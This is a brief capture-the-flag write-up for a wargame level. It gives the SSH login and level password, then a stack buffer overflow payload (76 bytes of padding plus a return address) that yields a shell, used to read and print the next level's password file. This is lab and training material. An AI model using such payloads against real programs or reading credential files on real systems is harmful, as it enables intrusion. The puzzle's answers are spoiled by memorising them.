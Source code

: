 ### Solution

Connect with `ssh -p 4243 level1@localhost`
Enter the password `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`

To work around this issue we can keep the `stdin` open like this:
```bash
$ ( printf "%-76s\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
